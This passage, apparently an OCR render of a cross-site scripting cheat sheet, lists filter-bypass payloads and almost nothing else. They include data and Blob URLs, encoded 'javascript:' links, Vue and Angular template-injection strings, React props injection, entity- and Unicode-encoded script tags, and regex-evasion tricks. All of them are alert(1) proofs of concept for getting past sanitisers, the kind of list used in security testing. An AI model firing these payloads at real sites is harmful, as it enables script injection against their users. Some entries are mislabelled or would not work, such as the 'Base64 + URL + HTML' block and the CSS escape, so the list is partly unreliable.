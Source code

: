 ```js
# Data URL Abuse
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click</a>

# Javascript Protocol Variants
<a href="javascript&colon;alert(1)">Click</a>
<a href="javascript&#58;alert(1)">Click</a>
<a href="javascript&#0058;alert(1)">Click</a>

# Blob URL Exploitation
<script>
URL.createObjectURL(new Blob(['<script>alert(1)</script>'],{type:'text/html'}))
</script>
```

\### Modern Framework Bypass Targeting popular JavaScript frameworks:

```js
# Vue Template Injection
{{constructor.constructor('alert(1)')()}}
{{_c.constructor('alert(1)')()}}

# Angular Template Injection
{{$eval.constructor('alert(1)')()}}
{{$on.constructor('alert(1)')()}}

# React Props Injection
<div data-react-props="{'dangerouslySetInnerHTML':{'__html':'<img src=x onerror=alert(1)>'}}">
```

### Advanced Encoding Techniques

Complex encoding combinations:

```js
# Multi-layer Encoding
# Base64 + URL + HTML
&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;

# Unicode Escape Sequence
\u0027\u003e\u003c\u0073\u0076\u0067\u0020\u006f\u006e\u006c\u006f\u0061\u0064\u003d\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029\u003e

# CSS Escape
<style>@import '\\0061lert(1)';</style>
```

### Regular Expression Bypass

Techniques to bypass regex-based filters:

```js
# Newline Injection
<script>alert`
1`</script>

# Comment Injection
<!--><script>alert/**/('1')</script>

# Non-standard Attributes
<x onclick="&#0097;lert(1)">click</x>
```

